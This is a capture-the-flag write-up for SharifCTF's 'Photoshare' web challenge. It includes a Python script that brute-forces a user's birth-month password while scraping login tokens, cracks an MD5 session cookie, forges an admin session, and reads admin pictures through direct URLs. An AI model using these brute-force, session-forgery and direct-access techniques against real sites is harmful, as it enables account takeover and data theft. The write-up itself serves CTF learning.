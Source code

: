 # Photoshare (250 PTS)
### Description

>Photoshare is an internet based photo sharing service. Login to this website as admin.
>
>web: ctf.sharif.edu:8084
>
>username: jack
>
>password: Year and month of Jack's birthday.

>Hint:No need for XSS or bypassing the uploader.

Flag: ```SharifCTF{kmvfwmj6sea7get9wggu249ehjc8hmdd}```

### Solution

<p><img src='images/welcome.png' /></p>

Website welcomes us with a login form. Username is known from the description (```jack```), password mask is ```YYYYMM``` (also from the description), secret question is pretty simple. So we need to investigate a html code and write a bruteforcer.

<p><img src='images/html.png' /></p>

I marked fields which should be extracted. I've used Python for writing it.

```python
import re
import requests

def get_hidden(url):
    response = requests.get(url)
    html = response.text
    question = re.search('name="SecQuestion" placeholder="(.*?)"', html)[1]
    answer = eval(question.split('=')[0].replace('x', '*'))
    field = re.search('name="field" value="(\w+)"', html)[1]
    token = re.search('name="_token" value="(\w+)">', html)[1]
    return response.cookies, answer, field, token

def get_passwords():
    for year in range(1900, 2019):
        for month in range(1, 13):
            yield '%04d%02d' % (year, month)
```

Full code you can see in [brute.py](brute.py). Run it and... yeah!
```
Found password for jack: 195408
```

Now we can login as jack.

<p><img src='images/home.png' /></p>

<p><img src='images/upload.png' /></p>

Website has two pages: we can upload a photo with id from 1 to 6 and show it on the showcase.
Look at the urls.

<p><img src='images/images.png' /></p>

It seems that we can insert any username instead of ```jack```, but it causes 403.

<p><img src='images/denied.png' /></p>

Interesting, but we're following Hint and ```not bypassing the uploader```. Look at the cookie called ```session_id``` instead! Yes, it's just an md5 hash which can easily be cracked.

```
session_id=a6da08ce385c95026045150daf37e2f8 = md5(jack34)
```

After some experiments I decided that we can write here hashes of jacks from ```jack1``` to ```jack60```, but it isn't important. Authors asks us to login as ```admin```, so let's do it! Try to set ```md5(admin34)``` and reload the page.

```python
>>> md5(b'admin34').hexdigest()
'06d6d78ec1dd8f97a0475ecfd034c55c'
>>>
```

<p><img src='images/admin.png' /></p>

Oops! Security check. But what if we open images directly from urls? For example image with ```id=3```:

```
http://ctf.sharif.edu:8084/GetPicture/admin/3
```

<p><img src='images/teacher.png' /></p>

Yeah, got it! His name is ```Mr. Tashakkor```. Now we can use it for entering the website.

<p><img src='images/final.png' /></p>
